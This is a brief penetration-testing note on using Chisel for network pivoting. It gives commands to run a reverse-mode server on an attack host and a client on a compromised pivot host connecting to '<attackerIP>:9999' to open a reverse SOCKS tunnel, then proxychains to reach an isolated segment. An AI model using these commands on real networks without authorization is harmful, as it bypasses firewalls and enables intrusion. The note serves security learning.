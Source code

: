 

- Chisel is a TCP/UDP based-tunneling tool written in Go. 
- It uses HTTP to transport data which is secured by SSH. 
- Chisel can create a client-server tunnel connection in a firewall restricted environment





### Syntax

1. Setting up the chisel server in reverse mode on the attack host

```bash
./chisel server --port 9999 --reverse
```


2. Connecting to the chisel server from the pivot host and creating a SOCKS tunnel

```bash
./chisel client <attackerIP>:9999 R:socks
```


3. Configuring proxychains and using it to tunnel any command through the SOCKS proxy

```bash
proxychains <any_command>
```



Now, we can reach the isolated network segment which was previously inaccessible from our attackbox, by tunneling all traffic through the pivot host. 